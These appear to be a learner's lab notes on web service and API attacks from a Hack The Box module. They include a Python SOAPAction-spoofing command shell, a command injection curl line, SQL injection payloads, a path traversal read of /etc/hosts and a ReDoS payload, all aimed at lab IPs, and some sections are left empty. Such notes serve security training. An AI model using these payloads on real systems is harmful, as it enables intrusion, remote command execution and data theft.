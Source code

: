 

# Web Services Attacks

## SOAPAction Spoofing

- If HTTP is the transport of choice, it is allowed to use an additional HTTP header called **SOAPAction**, which contains the operation's name. 
- The receiving web service can identify the operation within the SOAP body through this header without parsing any XML.
- If a web service considers only the **SOAPAction** attribute when determining the operation to execute, then it may be vulnerable to **SOAPAction spoofing**

**EX :**
- in the above service we have SOAPAction operation called `ExecuteCommand`
- if we use this script to send soap request to `ExecuteCommand`
```python
import requests 


url = "http://10.129.255.79:3002/wsdl"

while True :
    cmd = input("$ ")
    payload = f"""<soap:Envelope
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <ExecuteCommandRequest xmlns="http://tempuri.org/">
            <cmd>{cmd}</cmd>
        </ExecuteCommandRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"ExecuteCommand"'} )
    print(res.text)
```
- response 
```shell
python3 shell.py

$ whoami
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>
```

- using operation `ExecuteCommand` return an error  `This function is only allowed in internal networks`
- so we can use another operation in the service that is allowed outside internal network but the `SOAPAction` Header will be set to `ExecuteCommand`
- lets use `Login` operation , put `LoginRequest` element in the body but with `cmd` parameter 
```python
import requests 


url = "http://10.129.255.79:3002/wsdl"

while True :
    cmd = input("$ ")
    payload = f"""<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <LoginRequest xmlns="http://tempuri.org/">
            <cmd>{cmd}</cmd>
        </LoginRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"ExecuteCommand"'} )
    print(res.text)

```
- response 
```shell
 python3 shell.py 
 
$ whoami
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root
</result></LoginResponse></soap:Body></soap:Envelope>
```



## Command injection

you can achieve a command injection through API 

**EX:**
- consider this PHP REST API 
```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```
- the ping function is safe , but the Webservice is not it is using `call_user_func_array` which take args directly from the user 
- `call_user_func_array` call a function using the first argument and set it's arguments using the second argument
- so we can make a request to call the system function and set it's argument like this
```bash
$ curl "http://10.129.255.79:3003/ping-server.php/system/id"  
uid=0(root) gid=0(root) groups=0(root)
```


# APIs Attacks

## SQLI 

- try inject SQL in API paramters 
```bash
curl "http://10.129.230.235:3003/?id=1+OR+1=1+--+-"

[{"id":"1","username":"admin","position":"1"},{"id":"2","username":"HTB-User-John","position":"2"},{"id":"3","username":"WebServices","position":"3"},{"id":  
"8374932","username":"HTB{THE_FL4G_FOR_SQLI_IS_H3RE}","position":"736373"}]
```
- other example in soap based api 
```python 
import requests 


url = "http://10.129.202.133:3002/wsdl"

while True :
    username = input("username ")
    password = input("passowrd ")
    payload = f"""<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/"
    xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
    <soap:Body>
        <LoginRequest xmlns="http://tempuri.org/">
            <username>{username}</username>
            <password>{password}</password>
        </LoginRequest>
    </soap:Body>
</soap:Envelope>"""
    res = requests.post(url=url , data=payload , headers={"SOAPAction":'"Login"'} )
    print(res.text)

```
- result
```shell-session
$ username admin' -- -
$ passowrd


<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><id>0</id><name>Administrator</name><email>admin@htb.net</email><username>admin</username><password>FLAG{1337_SQL_INJECTION_IS_FUN_:)}</password></LoginResponse></soap:Body></soap:Envelope>
```

## Insecure File Upload

## LFI
```shell-session
$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"

127.0.0.1 localhost
127.0.1.1 nix01-websvc
```

## XSS
- like reflection in error messages 

## SSRF



## Regular Expression Denial of Service (ReDoS)
	Regular Expression Denial of Service (ReDoS) is a type of cyber attack that        targets applications or systems that use regular expressions to process and        validate input data.

**EX:**
```shell-session
curl "http://<TARGET IP>:3000/api/check-email?email=test_value"

{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

- The second and third groups are doing bad iterative checks.
- lets try this exploit and the server will respond in more time :

```shell-session
curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."

{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```


## XXE
### somtiems restful apis that uses json can still support xml try to change content type and send xml request that can be vulnerable to xxe
